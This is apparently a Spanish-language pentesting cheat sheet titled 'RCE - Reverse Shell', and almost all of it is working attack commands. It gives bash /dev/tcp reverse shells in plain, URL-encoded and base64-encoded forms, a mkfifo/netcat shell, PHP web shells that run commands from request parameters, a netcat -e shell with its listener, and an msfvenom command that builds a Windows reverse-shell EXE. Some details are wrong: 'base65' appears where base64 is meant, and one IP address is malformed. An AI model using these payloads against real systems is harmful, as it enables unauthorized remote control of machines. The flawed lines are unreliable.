 # RCE - Reverse Shell

Aquí iremos describiendo las diferentes maneras de crear SHELLs a medida que nos las encontremos.

## LINUX

Diferentes maneras de crear shells en linux.

La manera mas directa de crear una reverse shell en Linux es:

```bash
bash -i >& /dev/tcp/10.10.14.49/443 0>&1
```

Aunque a veces es mejor indicárselo como parámetro:

```bash
bash -c "bash -i >& /dev/tcp/10.10.14.49/443 0>&1"
```

En el caso de pasarlo como parámetro en una url hay que "escapar" los & con **%26**.

```bash
bash -c "bash -i >%26 /dev/tcp/10.10.14.49/443 0>%261"
```

Tambien podemos pasar tode en base64. Para generarlo:
```bash
echo "bash -c 'bash -i > /dev/tcp/10.11.16.52/443 0>&1'" | base65
```

Para ejecutarlo:
```bash
echo "YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExLjE2MC80NDQ0IDA+JjEiCg==" | base64 -d | bash
```

Otra manera:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.76.112 443 >/tmp/f
```

## PHP

Ejecución de comandos

```php
<?php system($_REQUEST["cmd"]); ?>
```

Otra manera más bonita:

```php
<?php
	if(isset($_REQUEST['cmd'])){
	    echo "<pre>";
	    $cmd = ($_REQUEST['cmd']);
	    system($cmd);
	    echo "</pre>";
	    die;
	}
?>
```
Directamente la consola: 

```php
<?php system("bash -i >& /dev/tcp/192.168.11.160/443 0>&1"); ?>
```

## NETCAT

Con netcat se puede entablar reverse shell:

```bash
nc -e /bin/sh 92.168.11.160 443
```

Ya tambien ponerse a la escucha:

```bash
sudo nc -nlvp 443
```

## MSFVENOM

### Fichero EXE

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.51 LPORT=443 -f exe -o reverse.exe
```
